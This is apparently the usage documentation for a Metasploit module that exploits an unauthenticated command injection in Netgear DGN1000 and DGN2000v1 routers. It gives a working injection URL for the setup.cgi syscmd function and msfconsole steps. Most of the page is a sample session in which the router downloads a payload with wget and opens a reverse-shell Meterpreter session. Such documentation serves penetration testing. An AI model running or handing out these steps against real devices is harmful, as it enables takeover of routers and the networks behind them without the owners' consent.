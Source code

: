 The module netgear_dgn1000_setup_unauth_exec exploits an unauthenticated OS command injection vulnerability in vulnerable Netgear DGN1000 with firmware versions up to `1.1.00.48` in addition to DGN2000v1 models, all firmware versions. The vulnerability occurs in within the `syscmd` fuction of the `setup.cgi` script to execute arbitrary commands. Manual exploitation could be completed through the browser, as for example : `http://<RouterIP>/setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=echo+vulnerable&curpath=/&currentsetting.htm=1`. Such example will return "vulnerable" on the page. Vulnerable models have `wget` installed on `/usr/bin/wget` and can be leveraged to drop a MIPS Big Endian payload.

## Vulnerable Application

Netgear DGN1000 with firmware versions up to `1.1.00.48` and DGN2000v1 models

## Verification Steps

  1. Start msfconsole
  2. Do : `use exploit/linux/http/netgear_dgn1000_setup_unauth_exec`
  3. Do : `set RHOST [RouterIP]`
  4. Do : `set PAYLOAD [payload]`
  5. Do : `run`
  6. If router is vulnerable, payload should be dropped via wget and executed, and therein should obtain an session

## Scenarios

Sample output of a successfull exploitation should be look like this :

```
msf > use exploit/linux/http/netgear_dgn1000_setup_unauth_exec
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RHOST 192.168.0.1
RHOST => 192.168.0.1
msf exploit(netgear_dgn1000_setup_unauth_exec) > set RPORT 80
RPORT => 80
msf exploit(netgear_dgn1000_setup_unauth_exec) > set LHOST eth0
LHOST = eth0
msf exploit(netgear_dgn1000_setup_unauth_exec) > set PAYLOAD linux/mipsbe/meterpreter/reverse_tcp
PAYLOAD => linux/mipsbe/meterpreter/reverse_tcp
msf exploit(netgear_dgn1000_setup_unauth_exec) > run

[*] Started reverse TCP handler on 192.168.0.11:4444
[*] 192.168.0.1:80 - Connecting to target...
[*] 192.168.0.1:80 - Exploiting target ....
[*] Using URL: http://0.0.0.0:8080/DnuJhOHYg7auIz
[*] Local IP: http://192.168.0.11:8080/DnuJhOHYg7auIz
[*] Client 192.168.0.1 (Wget) requested /DnuJhOHYg7auIz
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (1073332 bytes) to 192.168.0.1
[*] Meterpreter session 2 opened (192.168.0.11:4444 -> 192.168.0.1:51558) at 2017-10-20 20:37:06 -0400
[*] Command Stager progress - 100.00% done (129/129 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 2.6.20-Amazon_SE)
Architecture : mips
Meterpreter  : mipsbe/linux
meterpreter >
```

